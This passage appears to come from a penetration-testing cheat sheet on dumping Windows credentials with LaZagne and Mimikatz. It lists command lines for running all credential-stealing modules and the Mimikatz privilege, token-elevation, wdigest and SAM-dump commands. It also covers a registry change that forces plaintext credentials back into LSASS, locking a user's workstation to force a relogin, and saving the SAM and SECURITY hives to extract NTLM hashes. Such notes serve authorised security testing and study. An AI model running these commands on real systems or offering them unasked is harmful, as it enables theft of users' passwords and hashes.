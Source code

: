 The Windows version comes with an executable (.exe) file that can be used as a standalone .exe; however, it is not able to detect some credentials such as Google Chrome passwords.\
Simply double clicking on the executable ‘Lazagne.exe' will cause a warning message which indicates that the executable is malicious.&#x20;

* To run the tool successfully, use the command prompt to execute LaZagne:
  * `> lazagne.exe`
  * &#x20;`# Run all modules`
    * `> lazagne.exe all`
  * `# Run the browser modules`
    * `lazagne.exe browsers`
* There is also a Python script in the Windows directory of the LaZagne repository that can run on systems with Python installed. There are a few requirements that may need to be installed first – check the requirements.txt file in the repository for more details.
  * `#python laZagne.py`
  * `# Run all modules`
    * `python laZagne.py all`
  * `# Run modules for Google Chrome. Add the -v flag for verbose output`
    * `python laZagne.py browsers -google -v`
{% endtab %}

{% tab title="Mimikatz" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md" %}

[Mimikatz](https://github.com/gentilkiwi/mimikatz) - Utility to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory but also perform pass-the-hash, pass-the-ticket or build Golden tickets

* [SafetyKatz](https://github.com/GhostPack/SafetyKatz) - SafetyKatz is a combination of slightly modified version of @gentilkiwi's Mimikatz project and @subTee's .NET PE Loader.
* [spraykatz](https://www.kali.org/tools/spraykatz/) - This package contains a tool without any pretention able to retrieve credentials on Windows machines and large Active Directory environments.
* Can be run im memory so you dont drop and executable on the target
* Commands - will give clear text pw of currently logged in users
  * \> C:\Tools\password\_attacks\mimikatz.exe
  * \# privilege::debug
  * \# token::elevate #elevate session to SYSTEM level
  * \# kerberos
  * \# wdigest
  * \# lsadump::sam #Dump SAM database
* Windows 10 issue - Mimikatz will pull a NULL value when pulling creds as they are no longer in LSASS
  * Set registry key to put the credentials back into LSASS
    * \> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
  * Empire Command version
    * \>shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
  * You will need the user to relog into the system for this to take affect. Force this by locking thier workstation.
    * rundll32.exe user32.dll,LockWorkStation
* Mimikatz NTLM hash of all users
  * \#reg save hklm\sam filename1.hiv
  * \#reg save hklm\security filename2.hiv
  * mimikatz#privilege::debug
  * mimikatz#token::elevate
  * mimikatz#log hash.txt
  * mimikatz#lsadump::sam filename1.hiv filename2.hiv
* Mimikittenz
  * POC style tool that utilizes windows function ReadProcessMemory() to extract plain text passwords from various targets such as browsers
  * Search queries preloaded for Gmail, O365, Jira, github, bugzilla,zendesk, Cpanel, Dropbox, onedrive, AWS, SLack, Twitter, and Facebook
  * Does not require Local admin, it runs in Userland mem